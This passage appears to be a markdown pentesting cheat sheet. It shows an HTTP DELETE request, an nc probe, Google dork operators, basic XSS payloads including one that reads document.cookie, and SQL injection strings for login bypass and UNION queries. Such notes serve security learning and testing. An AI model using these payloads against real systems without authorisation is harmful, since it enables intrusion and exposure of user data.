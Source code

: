 > DELETE : remove a file
```
DELETE /path/to/destination HTTP/1.1
Host: <target>
```

### nc

```
nc <target> 80
OPTIONS / HTTP/1.0
```

### Google Dorks

[Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

| Syntax     | Meaning |
| ---------- | ------- |
| site:      | include only given hostname |
| intitle:   | filters according to title of page |
| inurl:     | filters according to URL |
| filetype:  | filters according to file extension |
| AND, OR, & |  logical operators |
| -          | filter out a keyword or a command result |

```
inurl: admin intitle: login
```

### Cross Site Scripting (XSS)

```
<h1>Hi</h1>
```

```
<script>alert('XSS');</script>
```

```
<script>alert(document.cookie);</script>
```

### SQL Injection

```
' or 1=1; -- -
```

```
' UNION SELECT 'els1','els2','els3'; -- -
```
